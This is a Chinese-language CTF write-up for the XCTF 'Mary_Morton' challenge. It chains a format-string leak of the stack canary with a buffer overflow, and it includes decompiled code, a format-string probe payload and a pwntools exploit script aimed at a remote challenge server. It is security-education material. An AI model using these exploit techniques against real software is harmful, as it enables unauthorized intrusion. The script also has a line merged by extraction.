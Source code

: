 # Mary_Morton

题目来源：https://adworld.xctf.org.cn/task/

这道题是一个漏洞组合的题目，也是我第一次遇到类似的问题，通过格式化字符串漏洞暴露栈中 canary 的值，随后通过缓冲区溢出漏洞获取 flag。

先不看源代码，先看一下保护机制：

```
    Arch:     amd64-64-little                                              
    RELRO:    Partial RELRO                                            
    Stack:    Canary found                                               
    NX:       NX enabled                                                   
    PIE:      No PIE (0x400000)   
```

然后看一下源代码：

```C
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  sub_4009FF();
  puts("Welcome to the battle ! ");
  puts("[Great Fairy] level pwned ");
  puts("Select your weapon ");
  while ( 1 )
  {
    while ( 1 )
    {
      sub_4009DA();
      __isoc99_scanf("%d", &v3);
      if ( v3 != 2 )
        break;
      sub_4008EB();
    }
    if ( v3 == 3 )
    {
      puts("Bye ");
      exit(0);
    }
    if ( v3 == 1 )
      sub_400960();
    else
      puts("Wrong!");
  }
}
```

从这里还看不到什么问题，不过在 sub_4009DA 中提示，这里会给你提供两个漏洞代码，一个是格式化字符串漏洞，还有就是缓冲区溢出漏洞。它们分别对应函数 sub_4008EB 和 sub_400960:

```C
unsigned __int64 sub_4008EB()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x7FuLL);
  printf(&buf, &buf);
  return __readfsqword(0x28u) ^ v2;
}

unsigned __int64 sub_400960()
{
  char buf; // [rsp+0h] [rbp-90h]
  unsigned __int64 v2; // [rsp+88h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x100uLL);
  printf("-> %s\n", &buf);
  return __readfsqword(0x28u) ^ v2;
}
```

因为在之前的安全性分析中发现，栈中是存在 canary 的，所以直接利用缓冲区溢出是无法成功的。因此这里所要用到的就是 canary 的泄露，而泄露的方法就是使用格式化字符串漏洞。

> 这里对 canary 要有一个初步的了解。在栈防护中，canary 算是比较简单并且比较久远的一种方法。在程序运行的时候会先选定一个每一次都不同的随机数并且预存在一个地方(32 位是 gs:0x14，64 位是 fs:0x28)，然后在每一次函数调用的时候，一般会插入在老 ebp 后面。
>
> 当我们从调用中返回时，系统会检测 canary 的值有没有被修改。当我们用普通的缓冲区溢出攻击时会覆盖掉 canary 值从而会被检测出攻击，所以使用一般的攻击手段不是特别容易绕过 canary 防护。

那么在这道题中只要想办法直到 canary 的值，在 32 位中是一个 4 字节的数据，在 64 位中是一个 8 字节数据，并且因为在老 ebp 下。现在需要的是计算 canary 的位置：

这道题中先借助格式化漏洞，可以知道对于 printf 而言参数的相对位置：

```
AAAA.%x.%x.%x.%x.%x.%x.%x.%x.%x
```

会发现 AAAA 出现在第 6 个位置，这个位置就是 buf 的开始位置，而前面的数据可能是一些冗余数据，被看作了 printf 中压入的参数(目前我是这么理解的)。那么根据栈中给它分配了 0x90 的大小，可以计算出对于 printf 而言 canary 的偏移是 23。

这样我们就能通过 printf("%23$p") 来暴露 canary 从而在下面的溢出中使用到该 canary 了。

```python
from pwn import *                                                         
import time                                                                                                                                              
context(arch="amd64", os ="linux")                                                      conn = remote('220.249.52.133', 37756)                                   
print conn.recvuntil('battle ')                                          
print conn.recvuntil('battle ')                               
conn.sendline('2')                                     
conn.sendline('%23$lld')                                              
print conn.recv()                                                       
canary =  int(conn.recv())                                              
print canary                                                
conn.sendline('1')                                                    
str1 = 'a' * 0x88 + p64(canary) + 'a' * 0x8 + p64(0x004008DA)           
print conn.recvuntil('battle ')                              
conn.sendline(str1)                                                       
print conn.recv()                                                          
print conn.recv()                                                          
print conn.recv()
```

